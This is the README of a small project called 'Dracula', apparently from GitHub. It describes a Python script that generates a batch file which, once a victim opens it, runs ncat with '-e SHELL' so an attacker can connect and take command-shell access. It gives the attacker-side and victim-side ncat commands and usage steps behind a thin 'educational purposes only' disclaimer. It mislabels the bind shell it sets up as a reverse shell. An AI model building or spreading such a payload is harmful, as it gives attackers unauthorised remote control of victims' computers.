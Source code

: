 **THIS IS ONLY FOR EDUCATIONAL PURPOSES, DO NOT USE THIS**

```
        _____                       _       
        |  __ \                     | |      
        | |  | |_ __ __ _  ___ _   _| | __ _ 
        | |  | | '__/ _` |/ __| | | | |/ _` |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__,_|\___|\__,_|_|\__,_|

```

This is a project i whipped up in like a single day lol, work in progress

# How it Works
uses ncat command to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Run the dracula.py file and enter the required info
2. A batch file is generated 

### **Attacker's Side**

set up a listener using ncat and wait for the client to open the batch file.

```
ncat IP_ADDR_CLIENT PORT
```
replace the IP_ADDR_CLIENT with ip addr of client and PORT with port used in the attack

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```
